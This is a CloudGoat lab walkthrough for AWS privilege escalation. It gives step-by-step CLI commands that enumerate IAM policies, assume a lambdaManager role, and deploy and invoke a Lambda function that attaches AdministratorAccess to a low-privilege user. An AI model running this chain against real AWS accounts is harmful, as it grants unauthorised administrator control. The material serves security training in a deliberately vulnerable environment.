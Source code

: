 `aws configure --profile Chris`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris`

`aws iam list-roles --profile Chris`

`aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris`

`aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris`

`aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = asdasdasd
aws_secret_access_key = asdasdsadas
aws_session_token = asdasdasd
```
python code:
````
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'chris-<cloudgoat_id>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
````

`aws lambda create-function --function-name admin_function --runtime python3.6 --role <cg-debug-role arn> --handler code.lambda_handler --zip-file fileb://code.zip --profile lambdaManager`

`aws lambda invoke --function-name admin_function out.txt --profile lambdaManager`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`
